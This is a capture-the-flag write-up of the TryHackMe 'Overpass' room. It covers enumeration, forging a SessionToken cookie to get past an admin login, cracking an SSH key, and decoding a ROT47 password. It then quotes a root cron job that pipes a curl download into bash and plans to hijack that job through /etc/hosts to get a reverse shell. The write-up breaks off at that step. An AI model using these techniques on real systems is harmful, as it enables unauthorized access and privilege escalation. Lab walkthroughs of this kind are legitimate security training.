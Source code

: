 ```yaml
---
layout: post
title:  "TryHackMe/Overpass"
author: "Berkay Guclu"
lang: en
categories: tryhackme easy
permalink: /:categories/overpass1
---
```

[<img src="/assets/images/tryhackme/overpass.png" height="199">](https://tryhackme.com/room/overpass)

*'What happens when some broke CompSci students make a password manager?'* - [NinjaJc01](https://tryhackme.com/p/NinjaJc01)

Difficulty: *Easy*

1. [Scan/Enumeration](#scan/enumeration)
2. [Gain Shell](#gain-shell)
3. [Privilege Escalation](#privilege-escalation)

******
## [Scan/Enumeration]

Let's start with nmap scan.

![overpass-1](/assets/images/tryhackme/overpass-1.png)

We have SSH on 22 and HTTP on 80. I'm checking web pages source codes. In index.html source codes I find this comment:

{% highlight html %}
<!--Yeah right, just because the Romans used it doesn't make it military grade, change this?-->
{% endhighlight %}

So I think they are probably using 'Ceaser Cipher'. We have a /download directory with some files, I decide to leave them here to look at them later. Other directory is /aboutus, in this directory i can't find anything but possible usernames. I also check main.js but it's only have 'hello world!'. So I'm doing gobuster scan.

![overpass-2](/assets/images/tryhackme/overpass-2.png)

## [Gain Shell]

We found /admin directory. In this directory source codes we can see login.js file and when we look at that we can see: if our cookie is "Incorrect credentials" we cant log in but else it is set our 'SessionToken' to our value and we can log in. So I'm open my browser developer tools and set a 'SessionToken' with 'gev' value. After that I refresh the page and I'm logged in.

![overpass-3](/assets/images/tryhackme/overpass-3.png)

Now we have encrypted id_rsa key. We can crack it with john and rockyou.txt.

![overpass-4](/assets/images/tryhackme/overpass-4.png)

For use this id_rsa we need set privilege with `chmod 600 id_rsa`. Now we know the password for id_rsa but we don't know this file is which user's. I'm trying all name on the about page but no one is work and I try to use the name on the password...

![overpass-5](/assets/images/tryhackme/overpass-5.png)

## [Privilege Escalation]

In james home directory, we have a todo file and its inculudes this: `Write down my password somewhere on a sticky note so that I don't forget it. Wait, we make a password manager. Why don't I just use that?`. When we do `ls -la` on james directory we can see .overpass file and now we know this file have james password and we can use this password for sudo privilege. We knew that, they are using 'Ceaser Cipher'. This cipher means 'It is a type of substitution cipher in which each letter in the plaintext is replaced by a letter some fixed number of positions down the alphabet.' Also usually this cipher is used as ROT13 and variants today. I'm taking this text and try to solve with two most popular ROT variants: ROT13 and ROT47. And the ROT47 is solve.

![overpass-6](/assets/images/tryhackme/overpass-6.png)

When we try to `sudo -l` command with this password we see we don't have sudo privilege. LOL. So let's check suid files.

{% highlight bash %}
find / -perm -4000 2>/dev/null
{% endhighlight %}

Nothing interesting. I check again todo.txt and i see james talking about some automated scripts. It can be a cron job, and we can see it `/etc/crontab`.

{% highlight bash %}
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
{% endhighlight %}

This mean, every seconds root user take overpass.thm/downloads/src/buildscript.sh and run it with bash. If we can edit this buldscript.sh we can gain shell as root.But there is no www directory in the /var directory so can be this server in /root directory and we cant access that. But as you can see it is using overpass.thm hostname for curl command so on linux system we can edit hosts in /etc/hosts file. Before that I create downloads/src/buildscript.sh with reverse shell and open a server with python. When i edit the /etc/hosts file:

![overpass-7](/assets/images/tryhackme/overpass-7.png)

